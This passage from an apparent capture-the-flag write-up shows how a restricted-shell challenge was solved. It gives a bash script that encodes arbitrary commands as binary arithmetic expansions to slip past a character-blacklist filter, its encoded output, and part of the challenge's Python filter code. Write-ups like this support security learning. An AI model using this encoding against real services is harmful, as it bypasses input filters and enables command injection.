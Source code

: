 `bash<<<$\'ls\'`

In essence, this bypass uses a very strict and small character set.

After spending some time trying to figure out how to add spaces to this bypass, I created this converter:

```bash
string=$*
string=$(echo -n "$string" | xxd -p | tr -d '\n')
echo "string: $string"
str='${0}<<<{$\'"'"
while read -n2 char; do
        (( ${#char} != 2 )) && continue
        [ "$char" == "20" ] && { str+="\\',$\\'"; continue; }
        octal=$(printf %o "0x$char")
        bin=$(echo "obase=2; $octal" | bc)
        str+="\\\\\$((\$((1<<1))#$bin))"

done <<< "$string"
str+='\'"',}"
echo $str
```

```
./convert.sh /printflag.sh B4sh_br0TH3rs
string: 2f7072696e74666c61672e736820423473685f6272305448337273
${0}<<<{$\'\\$(($((1<<1))#111001))\\$(($((1<<1))#10100000))\\$(($((1<<1))#10100010))\\$(($((1<<1))#10010111))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10100100))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\\$(($((1<<1))#111000))\\$(($((1<<1))#10100011))\\$(($((1<<1))#10010110))\',$\'\\$(($((1<<1))#1100110))\\$(($((1<<1))#1000000))\\$(($((1<<1))#10100011))\\$(($((1<<1))#10010110))\\$(($((1<<1))#10001001))\\$(($((1<<1))#10001110))\\$(($((1<<1))#10100010))\\$(($((1<<1))#111100))\\$(($((1<<1))#1111100))\\$(($((1<<1))#1101110))\\$(($((1<<1))#111111))\\$(($((1<<1))#10100010))\\$(($((1<<1))#10100011))\',}
```

Just copy and paste it into the remote shell:

<img width="726" alt="image" src="https://user-images.githubusercontent.com/2973929/234142293-7f6fe5fd-d15c-402e-b088-2e1852c219fc.png">

## Solution 2

I mean... I was happy that I had solved the challenge, but in the following days, I couldn't help but think that my solution was overkill. Since I had found a way to execute any command I wanted, I was able to, for example, read the code for the limited shell:

```python
#!/bin/usr/env python3

import subprocess
import re
import os
import random
from inputimeout import inputimeout, TimeoutOccurred

NOT_ALLOWED = re.compile("[a-z*?.]")

def create_tmp_dir():
    random_name = ''.join(random.choice('abcdefghijklmnopqrstuvwxyz') for x in range(32))
    dir_name = f'/tmp/{random_name}'
    os.mkdir(dir_name)
    return dir_name

def main(directory):
    print('Welcome to Crash Bash!')
    print('To get the flag, call /printflag.sh with the password!')
    print('Enter "q" to quit.')
```
